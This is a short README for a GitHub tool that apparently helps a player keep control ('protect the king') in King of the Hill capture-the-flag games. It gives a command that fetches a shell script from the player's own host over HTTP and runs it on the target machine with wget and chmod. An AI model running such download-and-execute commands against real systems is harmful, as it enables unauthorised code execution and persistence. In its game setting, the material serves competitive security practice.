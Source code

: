 # koth-protect-king
A script to protect your king in KoTH

# A script to protect your king

## Mode of use 

```
git clone https://github.com/MatheuZSecurity/koth-protect-king 
```

```
cd koth-protect-king && python3 -m http.server 80
```

## In KoTH Machine

```
wget http://youripvpn/king.sh && chmod +x king.sh && ./king.sh
```

#### then you just put your nick and the script already does all the work

#### NOICE: script updates will be made from time to time
